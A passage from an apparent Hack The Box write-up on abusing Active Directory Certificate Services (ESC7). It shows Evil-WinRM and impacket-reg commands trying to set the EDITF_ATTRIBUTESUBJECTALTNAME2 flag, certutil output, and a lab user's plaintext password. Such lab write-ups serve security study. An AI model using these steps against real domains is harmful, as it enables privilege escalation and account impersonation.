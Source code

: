 So we have `SubCA` Certificate template present on our target.

After doing some research and reading the **[original research paper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)**, I found a way to take advantage of ESC7 Attack Vector. Let's take a deep dive from here. 
###### `Some More Details on ESC7`
```
Outside Certificate Template, The Certificate Authority itself has a set of permission that secure various CA actions. This can be enumerated through PSPKI PowerShell Module. This is one of the most critical PATH of ESC7 Attack Vector. The two main rights here are the ManageCA right and the ManageCertificates right, which translate to the “CA administrator” and “Certificate Manager” (sometimes known as a CA officer) respectively.

if we have a principal with ManageCA rights on a certificate authority, we can use PSPKI to remotely flip the EDITF_ATTRIBUTESUBJECTALTNAME2 bit to allow SAN specification in any template.
```

###### `Changind REG Key using reg and impacket-reg - Access Denied`
```
*Evil-WinRM* PS C:\Users\Raven\Documents> reg query HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy -v EditFlags

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy
    EditFlags    REG_DWORD    0x11014e

*Evil-WinRM* PS C:\Users\Raven\Documents> reg add HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy -v EditFlags /d 0x40000 /f
reg.exe : ERROR: Access is denied.
    + CategoryInfo          : NotSpecified: (ERROR: Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

Even trying it using impacket-reg and getting access denied

# impacket-reg 'dc01.manager.htb'/'raven':'R4v3nBe5tD3veloP3r!123'@10.10.11.236 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v EditFlags -vd NEW_VALUE
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
```
###### `Importing PSPKI Module & Settign EDITF_ATTRIBUTESUBJECTALTNAME2 In The Registry`
```
*Evil-WinRM* PS C:\Users\Raven\Documents> certutil -config "dc01.manager.htb\manager-DC01-CA" -getreg "policy\EditFlags"
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags:

  EditFlags REG_DWORD = 11014e (1114446)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -getreg command completed successfully.

=================================================================================================================
```